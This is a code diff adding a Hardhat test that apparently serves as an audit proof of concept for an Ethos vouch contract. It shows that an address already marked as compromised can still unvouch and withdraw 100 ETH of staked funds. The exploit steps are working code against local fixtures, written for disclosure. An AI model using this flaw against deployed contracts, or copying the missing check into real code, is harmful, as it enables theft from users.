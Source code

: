 ```diff
+                  OWNER 
+              } = await loadFixture(deployFixture);
+
+              // Set up profile for voucher
+              await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+              await ethosProfile.connect(VOUCHER_0).createProfile(1);
+
+              // Set up profile for subject
+              await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+              await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+
+              // VOUCHER_0 creates a vouch for PROFILE_CREATOR_0
+              const vouchAmount = ethers.parseEther('100');
+              await ethosVouch.connect(VOUCHER_0).vouchByProfileId(
+                  3, // PROFILE_CREATOR_0's profile ID
+                  'Vouch comment',
+                  'Vouch metadata',
+                  { value: vouchAmount }
+              );
+
+              // Get VOUCHER_0's balance before their address is compromised
+              const voucherBalanceBefore = await ethers.provider.getBalance(VOUCHER_0.address);
+
+              // Now simulate VOUCHER_0's address being compromised
+              // First register a new address for their profile so they can mark original as compromised
+              const randValue = BigInt('29548234957'); // Using a deterministic value for testing
+              const signature = await common.signatureForRegisterAddress(
+                  OTHER_0.address,
+                  '2', // VOUCHER_0's profile ID
+                  randValue.toString(),
+                  EXPECTED_SIGNER
+              );
+              
+              await ethosProfile
+                  .connect(VOUCHER_0)
+                  .registerAddress(OTHER_0.address, 2, randValue, signature);
+
+              // Mark VOUCHER_0's original address as compromised using their new address
+              await ethosProfile.connect(OTHER_0).deleteAddress(VOUCHER_0.address, true);   // <------- Alternatively, can pass `false` as last param if only want to delete, without marking as compromised
+
+              // Verify the address is marked as compromised
+              expect(await ethosProfile.isAddressCompromised(VOUCHER_0.address)).to.be.true; // <------- comment this if not marked as compromised in the step above
+
+              // Despite being compromised, the address can still unvouch and receive funds
+              // Simulate the attacker who now controls VOUCHER_0's compromised address
+              const unvouchTx = await ethosVouch.connect(VOUCHER_0).unvouch(0);
+              await unvouchTx.wait();
+
+              // Check that the compromised address received the funds
+              const voucherBalanceAfter = await ethers.provider.getBalance(VOUCHER_0.address);
+              // The balance should have increased (minus gas costs)
+              expect(voucherBalanceAfter).to.be.closeTo(voucherBalanceBefore + ethers.parseEther('100'), ethers.parseEther('0.001'));
+
+              // Verify the vouch is now archived
+              const vouch = await ethosVouch.vouches(0);
+              expect(vouch.archived).to.be.true;
+          });
+      });
```